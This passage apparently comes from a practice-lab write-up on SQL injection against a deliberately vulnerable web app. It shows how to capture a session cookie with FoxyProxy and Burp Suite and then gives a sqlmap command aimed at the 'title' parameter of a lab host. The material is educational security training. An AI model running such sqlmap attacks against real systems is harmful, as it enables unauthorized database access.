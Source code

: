 - Activate `FoxyProxy` Plugin
- Start `BurpSuite` in Interception mode
  - Refresh the page, intercept the request and copy the cookie
  - Cookie: `PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0`

![](assets/image-20230504191136451.png)

- Run `sqlmap`, defining `title` as the test parameter

```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title
```
